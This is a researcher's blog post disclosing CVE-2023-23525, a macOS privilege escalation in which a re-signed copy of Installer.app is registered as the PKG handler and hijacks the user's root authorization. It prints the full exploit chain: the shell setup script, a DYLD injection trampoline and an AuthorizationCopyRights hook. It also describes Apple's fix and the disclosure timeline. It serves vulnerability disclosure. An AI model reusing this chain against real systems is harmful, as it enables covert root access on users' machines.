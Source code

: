 ```yaml
---
layout: post
title: CVE-2023-23525&#58; Get Root via A Fake Installer

---
```


A few weeks ago, [Rich Trouton](https://twitter.com/rtrouton) noticed a new change in the latest macOS release: [macOS Ventura 13.3 alters expected behavior for Finder’s Open With functionality for macOS installer packages](https://derflounder.wordpress.com/2023/04/01/macos-ventura-13-3-alters-expected-behavior-for-finders-open-as-functionality-for-macos-installer-packages/). In this post, I want to share a simple LPE vulnerability associated with it and why Apple made the change.

<img src="../res/2023-4-20-CVE-2023-23525-Get%20Root%20via%20A%20Fake%20Installer/image-20230420185628999.png" alt="image-20230420185628999" style="zoom:50%;" />

# The Attack Idea

As we all know, the **PKG** file type is widely used to install or deploy software packages. The default way to open a **PKG** file is the system application: `/System/Library/CoreServices/Installer.app`.

When we double-click a PKG file, the system installer will ask us to grant root privileges for the installation:

<img src="../res/2023-4-20-CVE-2023-23525-Get%20Root%20via%20A%20Fake%20Installer/image-20230420185826831.png" alt="image-20230420185826831" style="zoom:50%;" />

On the other hand, we can change the default application for opening PKG files through the API of LaunchServices framework.

So, can I **make a fake installer like the system one and entice the user to grant root privileges** as usual?

The answer is yes, you can view the video of my exploit:

https://youtu.be/B74tW7hAcAg

# The exploit

Make a fake installer that duplicates the system's installer and then change the default open method by using an open source tool named [swda](https://github.com/Lord-Kamina/SwiftDefaultApps). Internally, the tool calls the API `LSSetDefaultRoleHandlerForContentType` from `LaunchService.framework`.

```shell
#!/bin/sh

# duplicate the Installer.app from the system
cp -r /System/Library/CoreServices/Installer.app /Applications
# remove its signature
codesign --remove-signature /Applications/Installer.app

# replace the app executable with my trampoline, which set DYLD environment variable to launch the original macho with libfishhook.dylib injected.
mv trampoline /Applications/Installer.app/Contents/MacOS/
mv libfishhook.dylib /tmp
plutil -replace CFBundleExecutable -string 'trampoline' /Applications/Installer.app/Contents/Info.plist

# replace the bundle ID
plutil -replace CFBundleIdentifier -string 'com.hacker.installer' /Applications/Installer.app/Contents/Info.plist

# resign with adhoc
codesign -f -s - /Applications/Installer.app/Contents/MacOS/Installer
codesign -f -s - /Applications/Installer.app

# register the new faked Installer
/System/Library/Frameworks/CoreServices.framework/Versions/A/Frameworks/LaunchServices.framework/Versions/A/Support/lsregister -f /Applications/Installer.app

# now set the pkg file handler to our fake installer 
./swda setHandler --UTI com.apple.installer-package-archive --app /Applications/Installer.app
```

The main executable of my fake installer is a trampoline to the real installer, with a DYLIB injected:

```python
#!/usr/bin/env python3
import os, subprocess
os.environ['DYLD_INSERT_LIBRARIES'] = '/tmp/libfishhook.dylib'
subprocess.call('/Applications/Installer.app/Contents/MacOS/Installer')
```

Considering that python3 does not exist by default now, here is the code to build a Macho executable:

```c
#include <stdlib.h>
#include <unistd.h>

int main(int argc, const char * argv[]) {
    setenv("DYLD_INSERT_LIBRARIES", "/tmp/libfishhook.dylib", 1);
    execl("/Applications/Installer.app/Contents/MacOS/Installer", "/Applications/Installer.app/Contents/MacOS/Installer", 0);
    return 0;
}
```

Finally, the injected `libfishhook.dylib` just hooks one API method `AuthorizationCopyRights`:

```objective-c
OSStatus my_AuthorizationCopyRights(AuthorizationRef authorization,
    const AuthorizationRights *rights, const AuthorizationEnvironment * __nullable environment,
    AuthorizationFlags flags, AuthorizationRights * __nullable * __nullable authorizedRights) {
    OSStatus status = ori_AuthorizationCopyRights(authorization, rights, environment, flags, authorizedRights);
    NSLog(@"got authorization:%p from AuthorizationCopyRights, status:%d", authorization, status);
    
    NSLog(@"Now run payload with root privileges");
    char *args[] = {"/Library/lpe", NULL};
    AuthorizationExecuteWithPrivileges(authorization, "/usr/bin/touch", 0, args, NULL);
    
    return status;
}
```

In the hooked method, just after the user grants permission to install his own software package, I can abuse the authorization object for privilege escalation. Actually, the root privilege is granted by user directly.

The full proof of concept for this exploit is uploaded on [GitHub](https://github.com/jhftss/POC/tree/main/CVE-2023-23525) for research purpose only.

# Fix in macOS 13.3

As the [blog](https://derflounder.wordpress.com/2023/04/01/macos-ventura-13-3-alters-expected-behavior-for-finders-open-as-functionality-for-macos-installer-packages/) said, Apple now does not allow users to change the default application of PKG files. 

Sorry, it's my bad for the inconvenience, but it’s the price of security. 🤣

# Timeline



| Date       | Action                                                       |
| ---------- | ------------------------------------------------------------ |
| 2022-08-05 | Report sent to Apple                                         |
| 2022-08-18 | Apple said they can’t reproduce the issue and asked for a sysdiagnose |
| 2022-08-18 | Sysdiagnose provided                                         |
| 2022-08-19 | Apple said they encountered an error “no application found”  |
| 2022-08-19 | I compressed my fake Installer application and sent it to Apple |
| 2023-03-14 | Apple told me the issue will be addressed in an upcoming release |
| 2023-03-27 | Apple assigned CVE-2023-23525 to this report                 |



